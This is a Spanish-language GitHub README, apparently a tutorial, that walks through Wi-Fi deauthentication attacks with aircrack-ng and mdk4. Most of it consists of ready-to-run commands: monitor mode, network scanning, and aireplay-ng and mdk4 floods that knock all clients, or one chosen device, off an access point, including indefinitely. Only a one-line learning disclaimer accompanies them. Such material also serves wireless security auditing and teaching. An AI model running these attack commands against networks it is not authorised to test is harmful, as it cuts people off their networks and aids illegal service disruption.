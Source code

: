 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?color=F70000&width=401&lines=Ataque+de+desautenticaci%C3%B3n+Wi-Fi"></a>
</p>

<h1 align="center"></h1>

Un ataque de desautenticación Wi-Fi, también conocido como denegación de servicio a nivel red, consiste en inundar de solicitudes al punto de acceso o estación para saturar el ancho de banda con el objetivo de desconectar a todos los clientes de la red por un tiempo definido. Las tramas de desautenticación se realizan normalmente para determinar una conexión entre un cliente y un punto de acceso (AP) sin necesidad de ir cifrado. Por lo tanto, cualquier persona dentro de la red local (LAN) puede falsificar la dirección MAC de la víctima o AP.


En el siguiente esquema se observa como el `Atacante` envía solicitudes masivas al `Punto de Acceso`, haciendo que el/los clientes u otros equipos que estén conectados a la red LAN se vean afectados.

<p align="center">
  <img src="https://user-images.githubusercontent.com/75953873/180201683-5b0b1d4d-154d-4f3e-91a0-ecec5e35e4c1.png">
</p>

<h1 align="center"></h1>

### AIRCRACK-NG

Existen infinidades de herramientas para realizar este ataque, una de las más conocidas es la suite de Aircrack-ng, ya viene incorporada en distribuciones basadas en Debian como lo es Kali Linux y Parrot OS.

**Instalar en Debian:**
```
sudo apt-get install aircrack-ng
```

Pero antes que nada hay que reconocer la dirección MAC del objetivo (AP) y para ello es necesario poner nuestra tarjeta de red en modo monitor. Esto permitirá escuchar y capturar todos los paquetes que viajan en el aire.
```
ifconfig <INTERFAZ> down
iwconfig <INTERFAZ> mode monitor
ifconfig <INTERFAZ> up
```
![1](https://user-images.githubusercontent.com/75953873/180204632-77b2796f-52ba-4f03-8749-f3ce83a16a47.png)

Si lo prefieren automatizado:
```
airmon-ng start <INTERFAZ>
```
![2](https://user-images.githubusercontent.com/75953873/180204828-ea12756e-4daf-4041-95e7-337f19969bd7.png)

Lo siguiente será matar los procesos PID para no presentar ningún error al momento de auditar la red. Cada PID es único y se puede matar de forma manual según su ID:
```
pkill <nombre-del-proceso>
```
![3](https://user-images.githubusercontent.com/75953873/180205864-5c1debac-deed-4bb2-8146-58f864389591.png)

Pero si lo preferimos, airmon lo hace automatizado por nosotros:
```
airmon-ng check kill
```
![4](https://user-images.githubusercontent.com/75953873/180206365-5a57d41b-26a8-40aa-bac1-1b2ad1b80d39.png)

A continuación, es momento de reconocer las redes de nuestro alrededor:
```
airodump-ng wlan0
```
![5](https://user-images.githubusercontent.com/75953873/180207009-d32f3206-8a73-41b7-b389-466aa8ac67a3.png)

**BSSID:** Dirección MAC del punto de acceso.

**PWR:** Rango en el que se encuentra el AP.

**Beacons:** Número de paquetes envíado por el AP.

**#Data:** Número de paquetes capturados.

**CH:** Número de canal donde opera el AP.

**MB:** Velocidad máxima soportada por el AP. MB = 11 es 802.11b, si MB = 22 es 802.11b+ y hasta 54 son 802.11g.

**ENC:** Tipo de algoritmo de cifrado, generalmente las redes privadas utilizan WPA/WPA2 y WEP. En caso de ser una red pública, el algoritmo que utilizará es OPN = sin encriptación.

**AUTH:** Protocolo de autenticación utilizado.

**ESSID:** Nombre de la red inalámbrica.

Luego de reconocer el BSSID y el canal, quedaría capturar los paquetes del AP objetivo:
```
airodump-ng -c <N-CHANNEL> --bssid <MAC-AP> <INTERFAZ>
```
![6](https://user-images.githubusercontent.com/75953873/180209382-2b325c19-3b9c-4fc9-8395-91d46da5fb16.png)

La `STATION` son los clientes que están conectados la red (BSSID). En otra terminal proseguiremos a lanzar el ataque de desautenticación para desconectarlos:
```
aireplay-ng --deauth <SEGUNDOS> -a <MAC-AP> <INTERFAZ>
```
![7](https://user-images.githubusercontent.com/75953873/180210826-d42ea7a3-8a7a-49aa-9f9a-bedbcc510d1c.png)

Al específicar el tiempo en `0` el ataque será ilimitado, el párametro `a` es el BSSID del punto de acceso que atacará, permitiendo así que todos los clientes no puedan conectarse a dicha red.

El ejemplo anterior desconectará a todos los dispositivos de la red. Ahora, si quisieramos desautenticar a un dispositivo en específico utilizamos el parámetro `-c` **+** la dirección `MAC` del dispositivo (**STATION**).
```
aireplay-ng --deauth <SEGUNDOS> -a <MAC-AP> -c <MAC> <INTERFAZ>
```
![8](https://user-images.githubusercontent.com/75953873/180893744-86724669-affe-45b6-a424-9e0d77e0315e.png)

<h1 align="center"></h1>

### MDK3

Mdk4 es la nueva actualización de Mdk3. Es una herramienta para pruebas de de Wi-Fi desarrollada por el propio proyecto de aircrack-ng.

**Instalar en Debian:**
```
sudo apt install mdk4
```

Mdk4 contiene distintos parámetros con subparámetros de ataques, entre ellos, desautenticación:

**d:** Modo desautenticación

**-c:** Salto de canal.

**-E:** Nombre del punto de acceso (ESSID).

**-B:** Dirección MAC del punto de acceso (BSSID).

**-S:** Dirección MAC del cliente (STATION).

</br>

Expulsar a todos los clientes de la red:
```
mdk4 <INTERFAZ> d -c 1,6,10 -E <ESSID>
```
![9](https://user-images.githubusercontent.com/75953873/181662085-b509907a-6a50-44fe-b86c-790f5642562e.png)

</br>

Expulsar un cliente en específico:
```
mdk4 <INTERFAZ> d -S <MAC-CLIENTE>
```
![10](https://user-images.githubusercontent.com/75953873/181662651-c2858424-4bcf-40ff-b424-7a0fae2b194f.png)

</br>

<h1 align="center"></h1>

<h3 align="center"><ins>ADVERTENCIA<ins></h3>

<h4 align="center">Esto es con fines de aprendizaje, no nos hacemos responsables ni el fundador, ni el creador del tema del mal uso de esta herramienta u información.</h4>



#### ~R3LI4NT~

